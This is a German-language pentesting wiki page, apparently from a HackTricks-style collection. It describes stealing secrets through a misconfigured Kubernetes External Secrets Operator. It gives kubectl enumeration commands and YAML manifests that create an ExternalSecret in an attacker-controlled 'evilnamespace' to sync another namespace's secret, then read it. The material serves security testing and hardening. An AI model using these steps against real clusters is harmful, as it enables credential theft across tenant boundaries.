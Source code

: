 # External Secret Operator

**Der ursprüngliche Autor dieser Seite ist** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Diese Seite gibt einige Hinweise, wie Sie Geheimnisse von einem falsch konfigurierten ESO oder einer Anwendung stehlen können, die ESO verwendet, um ihre Geheimnisse zu synchronisieren.

## Disclaimer

Die unten gezeigte Technik kann nur funktionieren, wenn bestimmte Umstände erfüllt sind. Zum Beispiel hängt es von den Anforderungen ab, die erforderlich sind, um ein Geheimnis in einem Namespace zu synchronisieren, den Sie besitzen / kompromittiert haben. Sie müssen es selbst herausfinden.

## Voraussetzungen

1. Ein Fuß in einem Kubernetes / OpenShift-Cluster mit Administratorrechten in einem Namespace
2. Lesezugriff auf mindestens ExternalSecret auf Cluster-Ebene
3. Herausfinden, ob erforderliche Labels / Annotationen oder Gruppenmitgliedschaften benötigt werden, die ESO erlauben, Ihr Geheimnis zu synchronisieren. Wenn Sie Glück haben, können Sie beliebige definierte Geheimnisse frei stehlen.

### Informationen über vorhandene ClusterSecretStore sammeln

Vorausgesetzt, Sie haben einen Benutzer, der genügend Rechte hat, um diese Ressource zu lesen; beginnen Sie damit, zuerst die vorhandenen _**ClusterSecretStores**_ aufzulisten.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret Aufzählung

Angenommen, Sie haben einen ClusterSecretStore mit dem Namen _**mystore**_ gefunden. Fahren Sie fort, indem Sie die zugehörigen externalsecret auflisten.
```sh
kubectl get externalsecret -A | grep mystore
```
_Diese Ressource ist namespaced, also füge die -A-Option hinzu, um in allen Namespaces zu suchen, es sei denn, du weißt bereits, nach welchem Namespace du suchen sollst._

Du solltest eine Liste der definierten externalsecret erhalten. Angenommen, du hast ein externalsecret-Objekt namens _**mysecret**_ gefunden, das im Namespace _**mynamespace**_ definiert und verwendet wird. Sammle ein wenig mehr Informationen darüber, welche Art von Geheimnis es enthält.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assembling the pieces

Von hier aus können Sie den Namen eines oder mehrerer Geheimnisse (wie im Secret-Ressource definiert) erhalten. Sie erhalten eine Ausgabe ähnlich wie:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Bisher haben wir:

- Name eines ClusterSecretStore
- Name eines ExternalSecret
- Name des Secrets

Jetzt, da wir alles haben, was wir brauchen, können Sie ein ExternalSecret erstellen (und gegebenenfalls einen neuen Namespace patchen/erstellen, um die Voraussetzungen zu erfüllen, die erforderlich sind, um Ihr neues Secret synchronisiert zu bekommen):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Nach ein paar Minuten, wenn die Synchronisationsbedingungen erfüllt sind, sollten Sie in der Lage sein, das geleakte Geheimnis in Ihrem Namespace zu sehen.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referenzen

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
